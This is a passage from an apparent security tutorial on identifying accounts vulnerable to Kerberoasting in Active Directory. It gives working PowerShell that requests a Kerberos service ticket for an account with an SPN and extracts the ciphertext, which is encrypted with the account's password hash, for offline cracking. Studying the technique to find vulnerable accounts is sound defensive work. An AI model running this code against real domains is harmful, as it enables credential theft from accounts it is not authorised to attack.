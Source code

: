 Now that we've seen how it works, let's try to simulate it in our environment...

## Simulating The Technique

First we need to request a service ticket.  We'll use `xxxxxxxx` as an example and perform the following commands:

```powershell
Add-Type -AssemblyName System.IdentityModel
$Ticket = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList xxxxxxxx
```

We have created an object that represents the security token we'll use to request a ticket for the SPN associated with the `xxxxxxxx` account:

![](images/Identifying%20Accounts%20Vulnerable%20To%20Kerberoasting/image011.png)<br><br>

The following requests the ticket, captures the bytes, and extracts the ciphertext:

```powershell
$TicketByteStream = $Ticket.GetRequest()
$TicketHexStream = [System.BitConverter]::ToString($TicketByteStream) -replace '-'

if ($TicketHexStream -match 'a382....3082....A0030201(?<EtypeLen>..)A1.{1,4}.......A282(?<CipherTextLen>....)........(?<DataToEnd>.+)') {
    $Etype = [Convert]::ToByte( $Matches.EtypeLen, 16 )
    $CipherTextLen = [Convert]::ToUInt32($Matches.CipherTextLen, 16)-4
    $CipherText = $Matches.DataToEnd.Substring(0,$CipherTextLen*2)
}
```

This is the cyphertext that is encrypted with the NTLM hash of the `xxxxxxxx` account plaintext password:

![](images/Identifying%20Accounts%20Vulnerable%20To%20Kerberoasting/image012.png)<br><br>
